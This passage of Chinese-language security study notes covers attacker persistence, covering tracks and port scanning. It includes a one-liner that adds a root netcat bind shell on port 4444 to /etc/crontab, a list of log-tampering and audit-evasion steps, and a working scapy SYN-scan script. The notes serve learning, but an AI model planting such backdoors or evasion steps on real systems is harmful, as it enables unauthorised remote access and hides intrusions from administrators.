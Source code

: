 使用cron或systemd等工具在系统启动或特定时间点执行恶意代码。
```bash
echo '@reboot root /usr/bin/nc -lvp 4444 -e /bin/bash' >> /etc/crontab
```

## 清除痕迹
避免被安全管理员或IDS发现。  
- 篡改日志文件中的审计信息
- 改时间
- 删除/停止审计服务进程
- 干扰IDS
- 修改完整性检测标签？

## 攻击常见技术
### 端口扫描
完全连接扫描，三次握手  
半连接扫描，两次握手   
。。。

### TCP三次握手
1 SYN 客户端向服务端发SYN包，初始序列号ISN   
2 SYN-ACK 服务器回SYN-ACK，服务器序列号
3 ACK 客户端发ACK确认

- 完全连接扫描 Full Connect Scan：
完成SYN, SYN-ACK, ACK，会被服务器日志记录。
- 半连接扫描 Half-Open Scan:
客户端只发SYN包，服务器回SYN-ACK后，客户端立刻发送RST（Reset）包，不会被服务器记录。
- SYN扫描
```python
from scapy.all import *

def syn_scan(target, ports): #目标ip地址，端口列表
    for port in ports:
        #创建并发送SYN：目标地址；封装一个TCP包；flags设置为S表示SYN包；sr1发送SYN包并等待一个响应包response
        syn_packet = IP(dst=target)/TCP(dport=port, flags='S')
        response = sr1(syn_packet, timeout=1, verbose=0)
        
        #没收到响应包，端口被过滤/关闭
        if response is None:
            print(f"Port {port} is filtered or closed.")

        #响应包包含TCP，标志位是0x12即SYN-ACK，表示端口开放
        elif response.haslayer(TCP) and response.getlayer(TCP).flags == 0x12:
            print(f"Port {port} is open.")
            #创建RST包，发送以终止连接
            rst_packet = IP(dst=target)/TCP(dport=port, flags='R')
            send(rst_packet, verbose=0)
        #响应包包含TCP层，标志位是0x14（RST-ACK），表示端口关闭
        elif response.haslayer(TCP) and response.getlayer(TCP).flags == 0x14:
            print(f"Port {port} is closed.")

# Example usage
target_ip = "192.168.1.1"
ports_to_scan = [22, 80, 443]
syn_scan(target_ip, ports_to_scan)

```
- ID头信息扫描：通过检查IP头部的ID标识字段来推测端口的开放状态。例如，找一个闲置的dumb主机B，伪装成B向目标主机C发包，通过比较B扫描前后的ID字段来判断主机C的端口情况。
